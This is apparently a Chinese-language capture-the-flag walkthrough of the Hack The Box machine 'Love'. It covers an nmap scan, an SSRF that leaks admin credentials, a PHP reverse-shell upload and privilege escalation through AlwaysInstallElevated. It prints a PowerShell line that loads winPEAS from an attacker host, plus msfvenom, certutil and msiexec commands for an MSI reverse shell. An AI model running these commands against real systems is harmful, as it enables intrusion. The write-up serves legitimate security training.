## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/love]
└─$ sudo nmap -sT -sCV -p80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670 10.10.10.239  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-19 02:42 EDT
Stats: 0:01:43 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 94.74% done; ETC: 02:43 (0:00:05 remaining)
Stats: 0:02:56 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.81% done; ETC: 02:44 (0:00:00 remaining)
Nmap scan report for 10.10.10.239
Host is up (0.15s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, JavaRMI, LANDesk-RC, RPCCheck, SIPOptions, WMSRequest: 
|_    Host '10.10.16.10' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2024-07-19T06:58:41+00:00; +13m33s from scanner time.
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=7/19%Time=669A0ACE%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSSt
SF:atusRequestTCP,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20
SF:not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(
SF:SIPOptions,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LAND
SF:esk-RC,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(JavaRMI,
SF:4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSRequest,4A,"
SF:F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.10'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h58m34s, deviation: 3h30m04s, median: 13m32s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-07-19T06:58:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-18T23:58:31-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.99 seconds
```

得到一个域名，和ip绑定一下
/etc/hosts
staging.love.htb    10.10.10.239 
love.htb    10.10.10.239 
## web渗透

通过访问love.htb 主页得到一个登录界面
访问staging.love.htb则是另一个界面

先看下历史漏洞

rce需要登录后的权限才行，sql试了下没有用

然后就看下web页面吧
在`http://staging.love.htb/beta.php`有个ssrf

之前有扫到两个403的页面看看能不能看下
找到一个账号密码

admin: @LoveIsInTheAir!!!! 
这里能登录进去


找到文件上传，拿到shell
用的是这个反弹shell：PHP Ivan Sincek

## 提权

在用户桌面发现user.txt

无文件落地执行winpeas
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://10.10.16.10:9999/winPEASany.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

找到一个AlwaysInstallElevated

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=2333 -f msi -o reverse.msi

certutil.exe -urlcache -split -f http://10.10.16.10:9999/reverse.msi reverse.msi

msiexec /quiet /i reverse.msi
```
只要让靶机下载该文件然后执行即可


“AlwaysInstallElevated” 是 Windows 操作系统中的一个策略设置，旨在允许安装程序在具有提升的权限下运行。这一策略在注册表中有两个键值：

HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

当这两个键值都设置为 1 时，任何 MSI 安装包都会在提升的权限下运行，而无需用户确认。这可能导致安全风险，因为恶意用户可以创建或使用特制的 MSI 安装包来获得系统的完全控制权限。具体利用方式如上。